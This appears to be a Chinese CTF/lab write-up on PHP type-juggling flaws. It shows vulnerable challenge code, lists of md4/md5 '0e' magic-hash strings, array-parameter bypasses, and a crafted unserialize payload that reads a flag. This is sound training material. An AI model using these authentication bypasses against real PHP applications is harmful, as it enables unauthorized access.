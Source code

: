 ```yaml
---
title: PHP文件上传漏洞
date: 2022-01-17 22:05:03
tags:
      - PHP
      - 安全
      - 靶场练习
categories:
      - 安全
description:
keywords:
top_img: /img/PHP_BUG.jpg
cover: /img/PHP_BUG.jpg
---
```


# PHP

### \=\=和\=\=\=

== 是比较数值，不比较类型

```php
var_dump(998=="998"); true

var_dump(998=="998ab"); true

var_dump(0=="haha"); true

var_dump(123===123); true
```



mdpass的第一题

```php
md4 md5加密都有可能出现一个0e开头
for($i=1;;$i++){
    //$r = 0e1 0e2 ... 0e251288019
    $r = "0e".$i;
    //$md4 = 0e874956163641961271069404332409 
    $md4 = hash("md4",$r);
    echo '<br/>';
    echo $i;
    if(preg_match("/^0e[0-9]*$/", $md4)){
        echo "md4加密前".$r;
        echo "md4加密后".$md4;
        break;
    }
}
```

所以使用md4的漏洞机制

>0e251288019
>0e001233333333333334557778889

![image-20220121131916793](..\..\public\img\PHPBug-2.png)

```php
 <?php
    error_reporting(0);
    highlight_file("pass-02.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = $_GET['user'];
        $pass = $_GET['pass'];

        if($user != $pass && md5($user) == md5($pass)){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-03.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?> 
```

第二关是md5的

可以看出上面的要求我们用户名和密码不一样但是md5是一样的所以只要找出两个0e开头就可以了,下面这些随便挑两个不一样的就行

```
md5弱类型比较
IHKFRNS 0e256160682445802696926137988570
QLTHNDT 0e405967825401955372549139051580
QNKCDZO 0e830400451993494058024219903391
3908336290 0e807624498959190415881248245271
4011627063 0e485805687034439905938362701775
4775635065 0e998212089946640967599450361168
0e215962017 0e291242476940776845150308577824
aabg7XSs 0e087386482136013740957780965295
aabC9RqS 0e041022518165728065344349536299
```

或者使用数组跳过也可以

## ==因为数组md5后是null==

> /pass-02.php?user[]=1&pass[]=2



第三题

```php
 <?php
    error_reporting(0);
    highlight_file("pass-03.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = $_GET['user'];
        $pass = $_GET['pass'];

        if(!ctype_alpha($user) && !is_numeric($pass) && md5($user) == md5($pass)){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-04.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?> 
```

用函数判断一个是纯英文一个是纯数字同样使用弱命令即可

> ?pass=IHKFRNS&user=3908336290



第四题

```php
<?php
    error_reporting(0);
    highlight_file("pass-04.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = $_GET['user'];
        $pass = $_GET['pass'];

        if($user != $pass && md5($user) == md5(md5($pass))){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-05.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?>
```

因为user!=pass所以不能两个都是数组又因为pass被md5两次所以不能使用弱密码了

采用pass为数组,user为空即可

>?pass[]=1&user=

第四题和第五题一样



第六题比较严厉,只能遍历出弱比较了

```php
 <?php
    error_reporting(0);
    highlight_file("pass-06.php");

    if(isset($_GET['user']) && isset($_GET['pass'])){
        $user = (string)$_GET['user'];
        $pass = (string)$_GET['pass'];

        if($user != $pass && md5($user) == md5(md5($pass))){
            echo "success!<br>";
            echo file_get_contents('flag.txt')."\n";
            echo "<a href='pass-07.php'>下一关</a>";
        }else{
            echo "fail~~~";
        }

    }else{
        echo "please input the user and pass!"."\n";
    }
?> 
```

因为将类型转化为String所以array,null,INF,NAN都不行

> user=240610708&pass=aawBzC
>
> 
>
> 240610708---aawBzC

![image-20220121134720525](..\..\public\img\PHPBug-3.png)

第七题还是用数组过滤



第八题涉及到反序列化漏洞

> auth=O:4:"auth":2:{s:4:"user";d:INF;s:4:"pass";d:INF;}

```php
 <?php
    error_reporting(0);
    highlight_file("pass-08.php");

    class auth{
        public $user;
        public $pass;

        public function __destruct(){

            $this->user = (string)$this->user;
            if(strlen($this->user) > 3 || strlen($this->pass) >3){
                echo "level1 is fail~~~";
            }
            if($this->user !== $this->pass && $this->user != $this->pass && md5($this->user) === md5($this->pass)){
                echo "success!<br>";    
                echo file_get_contents("flag.txt");
            }else{
                echo "level2 is fail~~~";
            }
        }
    }
    unserialize($_POST['auth']);
?> 
```

